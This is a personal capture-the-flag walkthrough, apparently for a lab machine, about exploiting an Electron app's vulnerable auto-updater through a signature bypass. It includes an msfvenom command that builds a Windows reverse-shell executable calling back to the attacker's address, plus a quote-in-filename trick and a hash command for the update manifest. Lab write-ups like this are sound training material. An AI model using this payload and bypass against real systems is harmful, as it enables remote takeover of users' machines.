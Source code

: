 My first attempt was to put an XMLHttpRequest into the "ready" event of main.js -- I then proceeded to re-pack the ASAR and walk back through the process of zipping, zipping, and uploading.  I got excited when I saw my file disappear from `client1` in the SMB share, but unfortunately I didn't get the HTTP request that I was expecting.

I'm thinking I either re-packed the executable incorrectly, or I did something else wrong.

## Consulting the Writeup

Looks like the correct path forward is close.  What I missed are three things: 1. the app relies on an auto-updater 2. the auto-updater is vulnerable and 3. I should have a windows VM handy for this kind of stuff.

## Booting the Windows VM and playing with the Auto Updater

I've copied the electron app to my windows VM (and lowered the ram on the VM so I can run it alongside Kali), and running the app we see "Error connecting to update server" (or similar, I forget exactly and it's gone now.)

If we inspect it with wireshark, what we see is a DNS request to (among other domains that are owned by Microsoft or similar) "updates.atom.htb".  If we inspect the source for the application, we can see it's using Electron Auto-Updater.  
Specifically, it's using Electron Auto-Updater version 2.23.3 which, according to https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html is vulnerable to signature bypass.  This is likely what we did wrong earlier -- apparently there's a signature on the executable.

Also, the updater can download files from URLs according to https://www.electron.build/configuration/publish#genericserveroptions 

### Making the Payload

So there's a couple ways we can do this.  

1. We can alter the electron app's JS code to pull down some files and then exec them on the remote server
2. We can create our own custom .exe using something like .NET and compile it and let the remote server pull it down
3. We can use MSF Venom to create a malicious payload easy-peasy in one line and push that.

I'm going to try the MSF Venom route because a) I'm short on time, b) I've never done it before and c) I don't have a good reason not to.  

A good reason not to would be something like needing to practice my .NET scripting, needing to not use MSF for some reason (OSCP?), or needing to bypass AV (MSF Venom is likely highly detectable).


```
# So to create the MSF payload we run:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe

# Then th trigger the exploit we need a quote in the filename (lol)
mv shell.exe "sh'ell.exe"

# and we're going to need the correct hash for the latest.yml file
sha512sum "sh'ell.exe" | cut-d ' ' -f 1 | xxd -r -p | base64 -w0
```
